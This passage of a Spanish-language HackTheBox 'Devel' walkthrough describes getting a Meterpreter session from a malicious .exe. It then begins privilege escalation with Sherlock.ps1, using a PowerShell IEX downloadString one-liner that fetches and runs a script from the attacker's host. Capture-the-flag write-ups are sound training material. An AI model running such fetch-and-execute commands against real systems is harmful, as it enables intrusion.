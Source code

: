 ![](/assets/images/HTB/Devel-HackTheBox/msf1.webp)

Teniendo la sesión en escucha procedo a ejecutar el archivo .exe malicioso.

![](/assets/images/HTB/Devel-HackTheBox/ejecucion.webp)

Y conseguimos el acceso desde metasploit a través de meterpreter.

![](/assets/images/HTB/Devel-HackTheBox/metasploit.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

Ahora para buscar alguna vulnerabilidad explotable y escalar privilegios voy a lanzar la herramienta Sherlock.ps1 que he de descargar desde su fuente oficial y pasar a la máquina vícitima.

[https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

Para pasarlo lo descargo, abro un servidor python y ejecuto el siguiente comando desde la máquina víctima.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8081/Sherlock.ps1'); Find-AllVulns
```
